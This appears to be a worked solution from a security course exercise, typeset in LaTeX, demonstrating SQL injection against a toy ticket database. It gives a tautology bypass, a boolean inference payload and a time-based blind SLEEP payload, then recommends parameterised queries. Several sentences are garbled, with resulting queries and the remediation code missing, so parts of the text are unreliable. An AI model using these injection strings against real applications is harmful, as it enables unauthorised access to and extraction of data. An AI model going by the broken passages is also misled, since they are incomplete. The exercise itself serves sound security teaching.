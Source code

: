 \begin{templatebox}{8B --- SQL Injection Escalation: Auth Bypass, Boolean Count Inference, and Time-Based Blind \texttt{SLEEP}}
\medskip
\textbf{Procedural Solution Execution:}
\begin{itemize}
  \item \textbf{Steps 1--4 (Tautology / All-Rows Injection --- Task a):}
  Supply input:
  \[
    \texttt{\$operaName} = \texttt{' OR 1=1 -- }
  \]
  Resulting query: . Because  is universally true for every row and \code{-- } comments out the trailing quote, the query selects all rows in  and Version 1 displays the total count of all tickets sold.
  \item \textbf{Steps 2--4 (Boolean-Inference SQLi via Row Count --- Task b):}
  Supply input:
  \[
    \texttt{\$operaName} = \texttt{Carmen' AND customerName = 'Bob' -- }
  \]
  Resulting query: . Version 1 displays : if $N \ge 1$, Bob has a ticket for Carmen; if $N = 0$, Bob does not.
  \item \textbf{Steps 2--5 (Time-Based Blind SQLi via  --- Task c):}
  Because Version 2 suppresses row counts, use response latency as the side channel. Supply input:
  \[
    \texttt{\$operaName} = \texttt{Carmen' AND customerName = 'Bob' AND SLEEP(10) = 1 -- }
  \]
  Resulting query:
  \[
    \texttt{SELECT customerName FROM tickets WHERE operaName = 'Carmen' AND customerName = 'Bob' AND SLEEP(10) = 1}
  \]
  \item \textbf{Step 6 (Root-Cause Remediation --- Task d):}
  Use : . The database compiles the SQL AST before binding  strictly as a literal string value, making syntax injection impossible.
\end{itemize}
\end{templatebox}

